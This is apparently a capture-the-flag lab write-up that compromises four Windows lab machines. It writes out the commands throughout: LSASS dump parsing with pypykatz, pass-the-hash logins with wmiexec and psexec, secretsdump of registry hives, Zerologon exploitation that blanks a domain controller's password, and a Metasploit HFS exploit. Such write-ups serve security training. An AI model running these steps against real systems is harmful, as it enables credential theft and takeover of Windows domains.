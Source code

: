 ﻿# Windows LAB 1

### Machine 1
After making a quick  port scan with nmap:

    nmap -Pn <target_ip>
![](https://i.ibb.co/6H8pkPh/Screen-Shot-2022-12-29-at-9-23-03-AM.png)
We can see that there is some opened ports, including an 80 http port.
So we go to our browser to check it out.
![enter image description here](https://i.ibb.co/Vm5gJJt/Screen-Shot-2022-12-29-at-9-29-03-AM.png)
After accessing the address, we see an enumeration of a directory and two other files, we enter to the dumps directory and there it is:
![](https://i.ibb.co/wcpHG80/Screen-Shot-2022-12-29-at-9-32-25-AM.png)An interesting files ```lsass.DMP``` that can be very helpful to find some hashes or passwords, so we click on it to download and go to our terminal to see if there is anything we can do.

First what is ```Lsass```:

> The Local Security Authority Subsystem Service (LSASS) is a process in
> Microsoft Windows operating systems that is responsible for enforcing
> the security policy on the system, such as verifying users during
> users logons and password changes.

And LSASS.DMP is a file that is created when the (LSASS) process on Windows system crashes. When it crashes, it generates a memory dump file that contains information about the state of the system at the time of the crash, like we said users logons and password changes.
So if we are lucky enough, we can find some NTLM hashes or any plain text password.
To extract the informations from the file we used a tool called ```pypykatz```, so we type our command:

    pypykatz lsa minidump lsass.DMP
![enter image description here](https://i.ibb.co/52PyX1T/Screen-Shot-2022-12-29-at-10-08-58-AM.png)
There it is an NT hash for an Administrator user, so let's sign in with this username and NT hash using wmiexec.py

     wmiexec.py -hashes :78f9261c7b0f08bd9a3b3b13340e4c2a Administrator@<targer_ip>
![enter image description here](https://i.ibb.co/BNnPpk6/Screen-Shot-2022-12-29-at-10-15-12-AM.png)
There it is we got access successfully, now we just need to look for our flag that i found in C:\Users\Administrator\Desktop.

### Machine 2

First thing we do a quick port enumeration with nmap:

    nmap -Pn 172.16.4.161

![enter image description here](https://i.ibb.co/0JZy77D/Screen-Shot-2022-12-29-at-10-39-19-AM.png)Nothing special here, what we can do is to look for any opened shares in this machine, to list the shares we use

    smbclient -L <target_ip>
![enter image description here](https://i.ibb.co/7V9Q4Q3/Screen-Shot-2022-12-29-at-10-43-36-AM.png)We can see that there is 4 different shares, but there is one that we can access without credentials, it's the backup share.
So we access it with ```smbclient```

    smbclient \\\\<target_ip>\\Backup
We press enter for the password and we are in, we try ```ls``` to enumerate if there is any files.
![enter image description here](https://i.ibb.co/882ZqZG/Screen-Shot-2022-12-29-at-10-49-08-AM.png)We try to download the files with the get command, ```get <file>```.

The SAM.SAVE, SYSTEM.SAVE, and SECURITY.SAVE files are all related in that they are backup copies of system-level registry hives on a Windows system.

The SAM.SAVE file is a backup copy of the Security Account Manager (SAM) registry hive, which contains information about user accounts on the system, including user names, passwords, and security identifiers (SIDs).

The SYSTEM.SAVE file is a backup copy of the SYSTEM registry hive, which contains important system-level configuration information, including information about device drivers, system services, and other system components.

The SECURITY.SAVE file is a backup copy of the SECURITY registry hive, which contains security-related information for the system, including access control lists (ACLs) and security policies.

To dump some informations from this files we use ```secretsdump.py```

    secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

SecretsDump should extract information from the SAM.SAVE, SYSTEM.SAVE, and SECURITY.SAVE files and that it should perform the extraction locally on the system where the command is being run.

![enter image description here](https://i.ibb.co/JFgSTyS/Screen-Shot-2022-12-29-at-11-35-00-AM.png)There it is, the NTLM hash of The Administrator user, so now we gonna try to get a shell using this hash with psexec.

    psexec.py -hashes <NTLM_Hash> <user>@<target_ip> cmd.exe

![enter image description here](https://i.ibb.co/VY3nVkP/Screen-Shot-2022-12-29-at-11-42-42-AM.png)And congratulation we got the shell, now go and find your flag.

### Machine 3

For this machine, i tried to test the Zerologon vulnerability.
First, we need to test if this machine is vulnerable to Zerologon, to test it, we can use a script that you can find here: [Zerologon_tester](https://github.com/SecuraBV/CVE-2020-1472)
So we run the script :

    python3 zerologon_tester.py DC-NAME <target_ip>
   
We can get the DC-NAME or Domain Controller name, with an nmap scan:

    nmap -A -Pn <target_ip>
![enter image description here](https://i.ibb.co/r2F4y6n/Screen-Shot-2022-12-29-at-1-14-32-PM.png)

And the Name is ```SRV-DC1```, so now we run the script:
![enter image description here](https://i.ibb.co/QmT3Gry/Screen-Shot-2022-12-29-at-1-17-21-PM.png)

So it can be exploit it, now to use it we gonna run this script: [Zerologon_exploit](https://github.com/risksense/zerologon)
The command gonna look like this:

    python3 set_empty_pw.py <DC-NAME> <target_ip>
   
![enter image description here](https://i.ibb.co/yYWR0RL/Screen-Shot-2022-12-29-at-1-31-40-PM.png)

That was successful now we gonna dump the hashes with ```secretsdump.py```

    secretsdump.py -just-dc <DC-NAME>\$@<target_ip>

We can grep the Administrator hash directly:

![enter image description here](https://i.ibb.co/VNn9Y6k/Screen-Shot-2022-12-29-at-1-41-33-PM.png)

And there it is, now we can log as Administrator using the NTLM hash with ```psexec.py```:

    psexec.py -hashes <NTLM_Hash> <user>@<target_ip> cmd.exe

![enter image description here](https://i.ibb.co/ynLYSPT/Screen-Shot-2022-12-29-at-1-45-14-PM.png)

Here we go, you can search for the flag.

### Machine 4

First of all, we start with out nmap scan

    nmap -A -Pn <target_ip>

We found an http port used by HttpFileServer httpd 2.3, we do a quick google search and we found this article, that gonna help us getting a remote command execution, you can find it here : [Article
](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/http/rejetto_hfs_exec)
Now we gonna our metasploit console to use ``exploit/windows/http/rejetto_hfs_exec``, we set the target host using ```set RHOSTS <target_ip>``` and  run exploit, There it is we got a shell

![enter image description here](https://i.ibb.co/fCmRD9F/Screen-Shot-2022-12-29-at-2-21-36-PM.png)So you should find the flag now.
